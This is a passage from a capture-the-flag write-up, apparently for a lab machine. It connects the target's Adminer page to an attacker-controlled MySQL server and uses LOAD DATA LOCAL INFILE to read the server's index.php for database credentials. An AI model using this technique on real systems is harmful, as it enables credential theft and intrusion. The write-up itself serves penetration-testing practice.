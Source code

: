 ### #2: Connecting Adminer To Our Server

Go to `http://10.10.10.187/utility-scripts/adminer.php` and log in with the following information:

* Server: 10.10.X.X
* Username: mysqlsec
* Password: password

The login is sucessful and we see the admin interface.

![adminer admin](./adminerlogin.jpg)

### #3: Loading Local File

Through Adminer, let's create a database `test` with one table called `test`.

Before we try loading a local file, let's start **Wireshark** and capture packets passing through `tun0`.

Now, click `SQL Command`, and use it to execute the code below.

```
LOAD DATA LOCAL INFILE '/var/www/html/index.php' 
INTO TABLE test.test
```

The command above tries to load the local file `index.php` into a table `test` in a database `test`. 

We are loading `index.php` because the backup copy we found in FTP shows that it contains database credentials. While the backup copy password is invalid, the live version might have the correct password.

![loading local file](./loadlocalfile.jpg)
